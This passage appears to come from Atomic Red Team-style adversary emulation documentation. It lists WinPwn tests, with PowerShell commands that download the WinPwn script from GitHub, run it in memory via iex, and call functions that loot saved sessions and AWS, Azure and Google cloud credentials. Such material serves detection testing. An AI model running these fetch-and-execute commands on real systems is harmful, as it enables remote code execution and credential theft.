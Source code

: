 **auto_generated_guid:** c9dc9de3-f961-4284-bd2d-f959c9f9fda5

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
sessionGopher -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #12 - WinPwn - Loot local Credentials - AWS, Microsoft Azure, and Google Compute credentials

Loot local Credentials - AWS, Microsoft Azure, and Google Compute credentials technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** aaa87b0e-5232-4649-ae5c-f1724a4b2798

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
SharpCloud -consoleoutput -noninteractive
```

<br/>
